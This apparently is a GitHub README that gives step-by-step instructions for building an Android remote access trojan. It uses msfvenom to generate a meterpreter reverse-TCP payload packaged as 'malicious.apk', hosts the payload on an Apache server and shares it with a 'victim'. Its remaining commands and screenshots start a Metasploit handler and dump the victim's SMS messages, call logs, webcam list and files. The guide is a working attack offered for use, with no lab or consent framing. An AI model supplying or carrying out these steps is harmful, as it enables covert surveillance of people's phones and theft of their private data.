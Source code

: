 # RAT-for-android
A Guide for making you own RAT(Remote access tool) for android with the help of msfconsole.

# Requirment to create your own RAT.
1.Kali linux
2.metaspolit framework
3.Apache2

# Steps to create RAT(Remote access tool)

1. Ensure that your system is upto date.
   (sudo apt update && sudo apt upgrade -y)

2. Install apache2 in your system.
   (sudo apt install apache2)
![WhatsApp Image 2025-01-02 at 8 18 26 PM](https://github.com/user-attachments/assets/7a05e6a3-130c-4166-9722-b39d56ca3a5e)
![WhatsApp Image 2025-01-02 at 8 19 11 PM](https://github.com/user-attachments/assets/f3c586d5-d138-4236-b3ba-2fc5b7cc4c53)

3. After installing you need to enable and start apache2 server.
   (sudo systemctl start apache2),(sudo systemctl enable apache2)
   
  ![WhatsApp Image 2025-01-02 at 8 22 12 PM](https://github.com/user-attachments/assets/e79ab4ab-95fd-4036-a629-ad5aaf41b1b4) 
  ![WhatsApp Image 2025-01-02 at 8 23 06 PM](https://github.com/user-attachments/assets/22d2955e-c1dd-4f15-ac2b-5f4b0b65be02)

5. Verify that apache2 is running or not.
 (sudo systemctl status apache2)
![WhatsApp Image 2025-01-02 at 8 24 19 PM](https://github.com/user-attachments/assets/70dfab6d-b595-486b-abda-166a7b2b57af)
![WhatsApp Image 2025-01-02 at 8 24 39 PM](https://github.com/user-attachments/assets/559183fa-6e1f-4f59-9840-3e9f85f0ad6d)

6. If you have firewall enable in you system you need to add rule in firewall for apache2.
   (sudo ufw allow 'Apache Full')

7. You wil get you apache2 server folder at (/var/www/html/)

8. Now you have successfully created your apache2 server you can vist you index page of you server at
   (http//{your-ip}/index.html)

9. Next step is to create payload for you RAT apk.

10. We are using msfvenom for creating payload.
    (msfvenom -p android/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=<port> R > malicious.apk).

    
   ![Screenshot 2025-01-02 191802](https://github.com/user-attachments/assets/3e9ed813-a821-4079-b78f-e03817f94de2)

12. LHOST: Your IP address (use ifconfig to find it).  
     LPORT: A port number for listening (e.g., 4444).  
     malicious.apk: The name of the APK file created.
![Screenshot 2025-01-02 191825](https://github.com/user-attachments/assets/26b29ecf-5f1e-451c-83f4-61132521c0ab)

13. After creating apk you can upload it to you server show that anyone with you link can download or you can share apk any way to victim device.

    (mv malicious.apk /var/www/html/) for moving apk to server.

14. Now open msfconsole to monitro the apk and perform task on it on victim device.
![Screenshot 2025-01-02 193021](https://github.com/user-attachments/assets/192ce1fd-543d-4fc8-add0-7d01b71a9550)
![Screenshot 2025-01-02 193046](https://github.com/user-attachments/assets/d072d315-4dfc-49c9-9d1e-21bdd957e387)

# Steps to connect to the paylod in victim device

sudo msfconsole  

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST {your-ip}

set LPORT {port}

exploit

15. Hit enter to exploit make sure you have successfully install the payload to the victim device.
![Screenshot 2025-01-02 193214](https://github.com/user-attachments/assets/34c56c34-e7d3-4306-891c-24bbdea74026)

16. It will get connect to victim device now you can have access to it file manager,sms,calllogs,sysinfo,camer,etc.
![Screenshot 2025-01-02 193448](https://github.com/user-attachments/assets/82ba145d-a55d-4233-a6d7-54962bff0814)
![Screenshot 2025-01-02 193458](https://github.com/user-attachments/assets/942e9f88-17c3-4501-af78-e9713cbc193c)

17. once connection is successfull try using (dump_sms for sms ,dump_calllog for call logs ,webcam_list , sysinfo for system info, ls to list dir)
![Screenshot 2025-01-02 193517](https://github.com/user-attachments/assets/c42653cf-0695-4f88-8549-3041b24862b4)
![Screenshot 2025-01-02 193535](https://github.com/user-attachments/assets/babd95e8-5496-4bac-bb62-8ab251baf7e2)
# Sms output
![Screenshot 2025-01-02 204049](https://github.com/user-attachments/assets/b0c6d2cd-8ae0-4946-b9fc-f0a42fc0cdf2)

